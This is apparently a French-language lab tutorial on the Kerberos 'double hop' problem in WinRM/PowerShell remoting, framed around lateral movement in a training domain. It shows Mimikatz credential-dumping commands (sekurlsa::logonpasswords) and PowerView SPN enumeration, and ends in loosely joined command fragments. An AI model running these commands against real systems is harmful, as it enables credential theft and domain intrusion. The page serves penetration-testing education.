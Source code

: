 Problème de "double saut" Kerberos
==================================

* * * * *

Il existe un problème connu sous le nom de « double saut » qui survient lorsqu'un attaquant tente d'utiliser l'authentification Kerberos sur deux (ou plusieurs) sauts. Le problème concerne la manière dont les tickets Kerberos sont accordés pour des ressources spécifiques. Les tickets Kerberos ne doivent pas être considérés comme des mots de passe. Il s'agit de données signées du KDC qui indiquent les ressources auxquelles un compte peut accéder. Lorsque nous effectuons l'authentification Kerberos, nous obtenons un « ticket » qui nous permet d'accéder à la ressource demandée (c'est-à-dire une seule machine). Au contraire, lorsque nous utilisons un mot de passe pour nous authentifier, ce hachage NTLM est stocké dans notre session et peut être utilisé ailleurs sans problème.

* * * * *

Arrière-plan
------------

Le problème du « Double Hop » se produit souvent lors de l'utilisation de WinRM/Powershell puisque le mécanisme d'authentification par défaut ne fournit qu'un ticket pour accéder à une ressource spécifique. Cela entraînera probablement des problèmes lorsque vous tenterez d'effectuer un mouvement latéral ou même d'accéder à des partages de fichiers à partir du shell distant. Dans cette situation, le compte utilisateur utilisé a le droit d'effectuer une action mais se voit refuser l'accès. Le moyen le plus courant d'obtenir des shells consiste à attaquer une application sur l'hôte cible ou à utiliser des informations d'identification et un outil tel que PSExec. Dans ces deux scénarios, l'authentification initiale a probablement été effectuée via SMB ou LDAP, ce qui signifie que le hachage NTLM de l'utilisateur serait stocké en mémoire. Parfois, nous disposons d'un ensemble d'informations d'identification et sommes limités à une méthode d'authentification particulière, telle que WinRM, ou préférons utiliser WinRM pour un certain nombre de raisons.

Le nœud du problème est que lors de l'utilisation de WinRM pour s'authentifier sur deux connexions ou plus, le mot de passe de l'utilisateur n'est jamais mis en cache dans le cadre de sa connexion. Si nous utilisons Mimikatz pour examiner la session, nous verrons que toutes les informations d'identification sont vides. Comme indiqué précédemment, lorsque nous utilisons Kerberos pour établir une session à distance, nous n'utilisons pas de mot de passe pour l'authentification. Lorsque l'authentification par mot de passe est utilisée, avec PSExec, par exemple, ce hachage NTLM est stocké dans la session, donc lorsque nous accédons à une autre ressource, la machine peut extraire le hachage de la mémoire et nous authentifier.

Jetons un coup d'oeil rapide. Si nous nous authentifions auprès de l'hôte distant via WinRM, puis exécutons Mimikatz, nous ne voyons pas les informations d'identification de l' `backupadm`utilisateur en mémoire.

  Problème de "double saut" Kerberos

```
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 45177 (00000000:0000b079)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
```

[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname